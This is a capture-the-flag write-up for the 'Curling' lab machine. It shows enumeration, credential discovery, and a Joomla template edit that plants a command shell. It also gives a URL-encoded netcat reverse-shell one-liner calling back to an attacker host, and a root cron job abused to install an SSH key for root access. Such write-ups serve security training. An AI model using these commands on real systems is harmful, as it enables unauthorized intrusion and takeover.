





Target: 10.10.10.150  

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.150        

Nmap scan report for 10.10.10.150
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.10.150/FUZZ

images                  [Status: 301, Size: 313, Words: 20, Lines: 10]
templates               [Status: 301, Size: 316, Words: 20, Lines: 10]
media                   [Status: 301, Size: 312, Words: 20, Lines: 10]
modules                 [Status: 301, Size: 314, Words: 20, Lines: 10]
bin                     [Status: 301, Size: 310, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 314, Words: 20, Lines: 10]
includes                [Status: 301, Size: 315, Words: 20, Lines: 10]
language                [Status: 301, Size: 315, Words: 20, Lines: 10]
components              [Status: 301, Size: 317, Words: 20, Lines: 10]
cache                   [Status: 301, Size: 312, Words: 20, Lines: 10]
libraries               [Status: 301, Size: 316, Words: 20, Lines: 10]
tmp                     [Status: 301, Size: 310, Words: 20, Lines: 10]
layouts                 [Status: 301, Size: 314, Words: 20, Lines: 10]
administrator           [Status: 301, Size: 320, Words: 20, Lines: 10]
cli                     [Status: 301, Size: 310, Words: 20, Lines: 10]
```

checking 10.10.10.150  


viewing source of index



checking secret.txt
```
$ curl http://10.10.10.150/secret.txt

Q3VybGluZzIwMTgh
```

checking posts


checking /administrator



decoding secret
```
$ echo 'Q3VybGluZzIwMTgh' | base64 -d

Curling2018! 
```

testing credentials in /administrator (Floris:Curling2018!)


### Findings:Looking for attack vectors

Using found credentials edit a php templates to get RCE. 


## Foothold:

adding malicous code to Extensions -> templates -> templates -> index.php



testing malicous code



opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

executing a reverse shell command
```
http://10.10.10.150/index.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2%3E%261|nc+<ip>+9001+%3E/tmp/f
```

```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Lateral Movement:

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

looking for suspicious file/s
```
www-data@curling:/var/www/html$ cd /home/floris

www-data@curling:/home/floris$ ls -la

total 44
drwxr-xr-x 6 floris floris 4096 May 22  2018 .
drwxr-xr-x 3 root   root   4096 May 22  2018 ..
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 May 22  2018 .cache
drwx------ 3 floris floris 4096 May 22  2018 .gnupg
drwxrwxr-x 3 floris floris 4096 May 22  2018 .local
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt

www-data@curling:/home/floris$ cat password_backup

00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

decoding in cyberchef (from hexdump + magic)



Loot:

`floris:5d<wdCbdZu)|hChXll`

```
www-data@curling:/home/floris$ su - floris

floris@curling:~$ id      

uid=1000(floris) gid=1004(floris) groups=1004(floris)
```

```
floris@curling:~$ cat user.txt

<redacted>
```


## Priv Escalations:

looking for suspicious file/s
```
floris@curling:~$ ls -la

total 52
drwxr-xr-x 7 floris floris 4096 Jun  4 09:39 .
drwxr-xr-x 3 root   root   4096 May 22  2018 ..
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 May 22  2018 .cache
drwxr-x--- 3 floris floris 4096 Jun  4 08:05 .config
drwx------ 4 floris floris 4096 Jun  4 08:05 .gnupg
drwxrwxr-x 3 floris floris 4096 May 22  2018 .local
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
-rw------- 1 floris floris  845 Jun  4 09:39 .viminfo

floris@curling:~$ cd admin-area/

floris@curling:~/admin-area$ ls -la

total 28
drwxr-x--- 2 root   floris  4096 May 22  2018 .
drwxr-xr-x 7 floris floris  4096 Jun  4 09:39 ..
-rw-rw---- 1 root   floris    25 Jun  4 09:41 input
-rw-rw---- 1 root   floris 14236 Jun  4 09:41 report

floris@curling:~/admin-area$ cat input 

url = "http://127.0.0.1"
```

enumerating cronjob
```
floris@curling:/dev/shm$ ./pspy64 

pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
<snip>
2021/06/04 09:27:01 CMD: UID=0    PID=15421  | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report                                                                                                     
2021/06/04 09:27:01 CMD: UID=0    PID=15420  | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input                                                                                               
2021/06/04 09:27:01 CMD: UID=0    PID=15418  | /usr/sbin/CRON -f 
2021/06/04 09:27:01 CMD: UID=0    PID=15417  | /usr/sbin/CRON -f 
2021/06/04 09:27:01 CMD: UID=0    PID=15422  | sleep 1 
<snip>
```

There is a cronjob '/bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/' running owned by root, curling/reading the configuration file (-K) named input and outputing its contents to the file named report.

editing input to curl a public key and output to /root/.ssh/authorized_keys
```
floris@curling:~/admin-area$ echo 'url = "http://<ip>:8000/id_rsa.pub"' > input && echo 'output = "/root/.ssh/authorized_keys"' >> input
```

opening a http server on port 8000
```
$ python3 -m http.server 8000
```

```
$ ssh root@10.10.10.150

root@curling:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@curling:~# cat root.txt

<redacted>
```
